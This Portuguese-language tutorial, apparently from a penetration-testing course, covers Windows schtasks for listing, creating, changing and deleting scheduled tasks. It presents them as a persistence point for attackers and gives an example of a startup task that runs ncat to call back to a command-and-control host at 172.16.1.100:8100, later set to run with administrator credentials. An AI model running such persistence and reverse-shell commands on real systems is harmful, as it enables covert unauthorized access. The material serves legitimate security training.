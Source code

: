 
As tarefas agendadas são uma excelente maneira de os administradores garantirem que as tarefas que desejam executar regularmente aconteçam, mas também são um excelente ponto de persistência para invasores. Iremos discutir o uso de schtasks:

- Como checar quais tasks existem
- Como criar uma nova task para ajudar a automatizar ações ou adquirir uma shell no host


# O que são scheduled tasks?

O Task Scheduler permite que nós, como administradores, executemos tasks de rotina sem precisar iniciá-las manualmente. O scheduler monitorará o host em busca de um conjunto específico de condições chamado triggers(gatilhos) e executará a task assim que as condições forem atendidas.

Hora da história: Em vários compromissos, enquanto fazia pentesting em um ambiente corporativo, estive em uma posição em que cheguei a um host e precisava de uma maneira rápida de definir a persistência. Em vez de fazer algo maluco ou baixar outro executável no host, decidi procurar ou criar uma tarefa agendada que seja executada quando um usuário fizer login ou o host for reinicializado. Nessa tarefa agendada, definiria um gatilho para abrir um novo socket utilizando o PowerShell, acessando minha infraestrutura de Comando e Controle. Isso garantiria que eu pudesse voltar se perdesse o acesso a este host. Se eu tivesse sorte, quando a tarefa que escolhi fosse executada, também poderia receber um shell de nível SYSTEM de volta, elevando meus privilégios ao mesmo tempo. Ele garantiu rapidamente o acesso ao host sem disparar alarmes com antivírus ou sistemas de prevenção contra perda de dados.

## Triggers que podem iniciar uma scheduled task

- Quando um evento especifico no sistema ocorre
- Em um horário específico
- Em um horário específico em um programação diária
- Em um horário específico em uma programação semanal
- Em um horário específico em uma programação mensal
- Em um horário específico em uma programação mensal de um dia da semana
- Quando o computador entra em um estado ocioso
- Quando a task é registrada
- Quando o sistema é inicializado
- Quando um usuário faz logon
- Quando uma sessão do Terminal Server muda de estado

Essa lista de triggers é extensa e nos dá muitas opções para que uma tarefa execute uma ação. Agora que sabemos o que são tarefas agendadas e o que pode torná-las acionáveis, é hora de começar a usá-las.

# Como utilizar schtasks

## Mostrar scheduled tasks

#### Ação: Query - Parâmetros
- /fo: seta a opção de formatação, podemos especificar para mostrar os resultados em formato de tabela, lista ou csv.
- /v: Seta o formato verboso, mostrando um conjunto de propriedades avançadas quando usado com o formato de output como lista ou csv.
- /nh: Simplifica o output usando o formato de output de tabela ou csv. Essa opção remove a coluna de cabeçalho.
- /s: Seta o DNS ou endereço IP do host que nós queremos conectar. Localhost é a opção default especificada. Se /s é utilizada, nós estamos conectando em um host remoto e o formato é : `\\host`
- /u: Essa opção informará para ao schtasks para rodar o seguinte comando com o conjunto de permissões do usuário especificado.
- /p: Define a senha em uso para execução do comando quando especificamos um usuário para execução. Os usuários devem ser membros do grupo do administrador no host (ou domínio). Os valores u e p são válidos apenas quando usados com o parâmetro /s.

```cmd-session
C:\htb> SCHTASKS /Query /V /FO list

Folder: \  
HostName:                             DESKTOP-Victim
TaskName:                             \Check Network Access
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive only
Last Run Time:                        11/30/1999 12:00:00 AM
Last Result:                          267011
Author:                               DESKTOP-Victim\htb-admin
Task To Run:                          C:\Windows\System32\cmd.exe ping 8.8.8.8
Start In:                             N/A
Comment:                              quick ping check to determine connectivity. If it passes, other tasks will kick off. If it fails, they will delay.
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          tru7h
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up
Start Time:                           N/A
Start Date:                           N/A
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A

<SNIP>
```

## Criar uma scheduled task

### Ação: Criar - Parâmetros

- /sc: Define o tipo de agendamento. Pode ser por minuto, por hora, semanalmente e muito mais. Certifique-se de verificar os parâmetros das opções.
- /tn: Define o nome da tarefa que estamos construindo. Cada tarefa deve ter um nome exclusivo.
- /tr: Define o gatilho e a tarefa que devem ser executados. Pode ser um executável, script ou arquivo em lote.
- /s: Especifica o host a rodar, como explicado em Query.
- /u: Especifica o usuário local ou usuário do dominio para utilizar.
- /p: Seta a senha do usuário especificado
- /mo: Nos permite definir um modificador para ser executado dentro de nosso cronograma definido. Por exemplo, a cada 5 horas em dias alternados.
- /rl: Permite limitar os privilégios da tarefa. As opções aqui são acesso limited e highest, sendo limited o valor padrão.
- /z: Irá definir a tarefa a ser excluída após a conclusão de suas ações.

```cmd-session
C:\htb> schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"

SUCCESS: The scheduled task "My Secret Task" has successfully been created.
```


Um ótimo exemplo de uso para schtasks seria nos fornecer um retorno de chamada toda vez que o host for inicializado. Isso garantiria que, se nosso shell morrer, receberemos um retorno de chamada do host na próxima vez que ocorrer uma reinicialização, tornando provável que só perderemos o acesso ao host por um curto período de tempo se algo acontecer ou o host for desligado. Podemos criar ou modificar uma nova tarefa adicionando um novo gatilho e ação. Em nossa tarefa acima, temos schtasks executando o Ncat localmente, que colocamos no diretório AppData do usuário e conectando ao host `172.16.1.100` na porta `8100`. Se executada com sucesso, esta solicitação de conexão deve se conectar ao nosso framework de comando e controle (Metasploit, Empire, etc.) e nos dar acesso ao shell.

## Alterando as propriedades de uma scheduled task

### Ação: Change - Parâmetros

- /tn: Designa a task a ser alterada
- /tr: Modifica o programa ou ação que a task executa.
- /ENABLE: Altera o estado da task para Enabled.
- /DISABLE: Altera o estado da task para Disabled.

Digamos que encontramos o hash da senha do administrador local e queremos usá-lo para genrar nosso shell Ncat para nós; se algo acontecer, podemos modificar a tarefa para adicionar as credencias a serem usadas.

```cmd-session
C:\htb> schtasks /change /tn "My Secret Task" /ru administrator /rp "P@ssw0rd"

SUCCESS: The parameters of scheduled task "My Secret Task" have been changed.
```

```cmd-session
C:\htb> schtasks /query /tn "My Secret Task" /V /fo list 

Folder: \
HostName:                             DESKTOP-Victim
TaskName:                             \My Secret Task
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        11/30/1999 12:00:00 AM
Last Result:                          267011
Author:                               DESKTOP-victim\htb-admin
Task To Run:                          C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          SYSTEM
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up

<SNIP>  
```

## Deletar scheduled tasks

### Ação: Delete - Parâmetros:

- /tn: Identifica a task para deletar.
- /s: Especifica o nome ou endereço IP do qual deletar a task.
- /u: Especifica o usuário para executar a tarefa.
- /p: Especifica a senha para executar a tarefa.
- /t: Para o aviso de confirmação.

```cmd-session
C:\htb> schtasks /delete  /tn "My Secret Task" 

WARNING: Are you sure you want to remove the task "My Secret Task" (Y/N)?
```

A execução de schtasks /delete é bastante simples. O que deve ser observado é que, se não fornecermos a opção /F, seremos solicitados, como no exemplo acima, a fornecer a entrada. Usar /F excluirá a tarefa e suprimirá a mensagem.
